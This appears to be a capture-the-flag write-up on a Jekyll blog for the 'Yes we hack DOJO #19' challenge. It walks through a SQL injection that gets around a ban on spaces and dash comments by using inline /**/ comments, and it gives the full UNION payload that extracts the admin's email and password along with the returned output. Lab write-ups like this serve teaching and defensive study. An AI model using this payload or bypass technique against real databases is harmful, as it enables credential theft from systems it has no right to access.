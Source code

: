 ```yaml
---
layout: post
title:  "Yes we hack DOJO #19"
date:   2022-12-07 10:02:59 +0100
categories: jekyll update
---
```


![](/assets/storytime.png)
So we can't do -- comments and no spaces.
Hm.

How about comments?

This SQL Injection like many others come in three parts.
First to escape from the parameter you're in. In this case no problem. just use "3)".
The second part is to do whatever we would like to do. In this case UNION some more statements together since we can only do one statement.
Finally we can comment with \/* since that would 


We have a comment below which is a hint? It also has a \*/ for us

```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

Are comments valid token delimiters? Yes they are!

So something like 
```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```
should work and indeed it does.
Complete payload is:

```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```

Giving us:
```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

```json
[
  {
    "username": "FLAG{XXXXXXXXXXXXXXXXXXXXXXXXXX}"
  },
  {
    "username": "murphygary@gmail.com"
  }
]
```

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
